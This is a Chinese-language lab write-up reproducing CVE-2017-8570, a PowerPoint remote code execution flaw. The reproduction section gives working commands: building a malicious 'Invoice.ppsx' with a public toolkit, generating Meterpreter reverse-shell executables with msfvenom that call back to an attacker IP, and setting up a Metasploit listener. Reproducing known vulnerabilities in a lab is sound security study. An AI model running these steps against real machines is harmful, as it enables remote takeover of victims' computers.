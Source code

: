 # CVE-2017-8570

> [Office CVE-2017-8570 远程代码执行漏洞复现 | 国光 (sqlsec.com)](https://www.sqlsec.com/2017/08/officecve.html#复现环境)
>
> [手冢冢/Office8570：CVE20178570 --- tezukanice/Office8570: CVE20178570 (github.com)](https://github.com/tezukanice/Office8570)
>
> ---
>
> [Office CVE-2017-8570漏洞复现-CSDN博客](https://blog.csdn.net/weixin_44283446/article/details/122035825)
>
> ---
>
> [Office CVE-2017-8570 复现 - X1r0z Blog (exp10it.io)](https://exp10it.io/2019/08/office-cve-2017-8570-复现/)
>
> [Office CVE-2017-8570远程代码执行漏洞复现-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1047572)
>
> [CVE-2017-8570复现及编写脚本实现自动化 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/3772?time__1311=n4%2BxnD0DBDgDuADcQxlhAe0%3DePiKG%3D8OYss14D&alichlgref=https%3A%2F%2Fwww.google.com%2F)
>
> ---
>
> [CVE-2017-8570 自动化 - Y4er的博客](https://y4er.com/posts/cve-2017-8570/)

- 测试环境: Win7+Office2016

---

## 简介

2017年7月，微软在例行的阅读补丁中修复了多个Microsoft Office漏洞，其中的CVE-2017-8570漏洞为一个逻辑漏洞。网上公布了利用代码，影响范围广泛。

该漏洞为Microsoft Office的一个远程代码执行漏洞。其成因是Microsof PowerPoint执行时会初始化“script”Moniker对象，而在PowerPoint播放动画期间会激活该对象，从而执行sct脚本(Windows script Component)文件。

可以欺骗用户运行含有该漏洞的PPT文件导致获取和当前登录用户相同的执行权限。

---

## 影响版本

```
Microsoft Office 2007 Service Pack 3
Microsoft Office 2010 Service Pack 2 (32-bit editions)
Microsoft Office 2010 Service Pack 2 (64-bit editions)
Microsoft Office 2013 RT Service Pack 1
Microsoft Office 2013 Service Pack 1 (32-bit editions)
Microsoft Office 2013 Service Pack 1 (64-bit editions)
Microsoft Office 2016 (32-bit edition)
Microsoft Office 2016 (64-bit edition)
```

---

## 复现

- 攻击机
  - IP: `100.1.1.131`
  - `python 2.7`

- 靶机
  - IP: `192.168.5.11`
  - win7
  - Office2016


```bash
git clone https://github.com/tezukanice/Office8570.git
```

调整目录结构, 将 `template.ppsx` 放到 template 目录下

![image-20240613151844277](http://cdn.ayusummer233.top/DailyNotes/202406131518648.png)

```bash
# 生成恶意 PPSX 文件
python2 cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://100.1.1.131/logo.doc
```

![image-20240613152038446](http://cdn.ayusummer233.top/DailyNotes/202406131520504.png)

准备反弹Shell的exe文件

```bash
# 用 msf 的话
msfvenom -p windows/meterpreter/reverse_tcp LHOST=100.1.1.131 LPORT=6666 -f exe > shell.exe
## 若是 64 位操作系统的话
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.103 LPORT=6666 -f exe > shell.exe
```

将 `shell.exe` 放到项目目录下

![image-20240613152724555](http://cdn.ayusummer233.top/DailyNotes/202406131527625.png)

```bash
# 监听来自 ppsx 执行反弹 shell(ps:需要root权限)
python2 cve-2017-8570_toolkit.py -M exp -e http://100.1.1.131/shell.exe -l shell.exe
```

![image-20240613153318546](http://cdn.ayusummer233.top/DailyNotes/202406131533607.png)

```bash
# 用 msf 的话这里要设置 msf 监听
use exploit/multi/handler
set LHOST 100.1.1.131
set LPORT 6666
## for x86
set PAYLOAD windows/meterpreter/reverse_tcp
## for x64
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

将 Invoice.ppsx 放在靶机上用 PowerPoint 打开

![image-20240613153813982](http://cdn.ayusummer233.top/DailyNotes/202406131538069.png)

![image-20240613153916159](http://cdn.ayusummer233.top/DailyNotes/202406131539299.png)

![image-20240613154044274](http://cdn.ayusummer233.top/DailyNotes/202406131540452.png)

![image-20240613154205635](http://cdn.ayusummer233.top/DailyNotes/202406131542715.png)

---



















